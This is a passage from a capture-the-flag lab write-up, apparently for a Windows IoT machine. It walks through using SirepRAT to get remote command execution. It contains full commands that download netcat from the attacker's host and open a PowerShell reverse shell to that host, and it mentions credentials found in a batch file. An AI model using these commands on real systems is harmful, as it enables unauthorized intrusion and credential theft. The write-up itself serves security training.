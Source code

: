 
And I found:
- *Windows RPC*
- *Windows IIS httpd*

Credentials are required to access the web pages so I have decide gathering some infomration for this system and found [SirepRat](https://github.com/SafeBreach-Labs/SirepRAT).

Through SirepRAT is possible to upload file, so i uploaded a netcat for windows

>python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\Windows\System32\spool\drivers\color\nc64.exe -Uri http://10.10.14.94:8000/nc64.exe" --v 

<img src="./img/upload.png"  width="650"/>

and launched nc

>python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe 10.10.14.94 8080 -e powershell.exe" --v

<img src="./img/revshell.png"  width="650"/>

In `C:\Program Files\WindowsPowershell\Modules\PackageManagement` there is a file `r.bat` with some credentials

<img src="./img/rbat.png"  width="650"/>
